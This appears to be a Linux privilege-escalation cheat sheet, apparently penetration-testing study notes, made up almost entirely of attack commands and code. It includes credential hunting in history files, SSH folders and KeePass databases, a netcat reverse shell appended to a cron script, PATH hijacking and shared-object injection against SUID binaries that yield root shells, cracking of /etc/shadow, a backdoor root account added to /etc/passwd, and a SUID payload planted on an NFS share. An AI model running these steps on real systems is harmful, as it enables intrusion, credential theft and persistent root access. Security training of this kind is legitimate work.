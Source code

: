 # 🐧 Linux Privesc

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -i' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.
First, execute the file and note that currently it displays a progress bar before exiting.

Run **strace** on the file and search the output for open/access calls and for "no such file" errors:

```shell
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `/home/user/.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the libcalc.so file: `mkdir /home/user/.config`

Compile a malicious code into a shared object at the location the **suid-so** executable was looking for it:

```c
#include <stdio.h>
#include <stdlib.h>
int main() { 
    system("/bin/bash"); 
    return 0; 
}
```

```shell
gcc -shared -fPIC /home/user/tools/suid/libcalc.c -o /home/user/.config/libcalc.so 
```

Execute the **suid-so** executable again, and note that this time, instead of a progress bar, we get a root shell.

```shell
/usr/local/bin/suid-so
```

## Weak file permissions

```shell
# check if /etc/shadow can be readed and get the root hash or the file
unshadow passwd shadow > passwords.txt

# check if /etc/shadow can be writable and put a new root hash
mkpasswd -m sha-512 newpassword

# check if /etc/passwd can be writable and put a new root hash
openssl passwd newpass
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

- [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)
- [Liinux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```
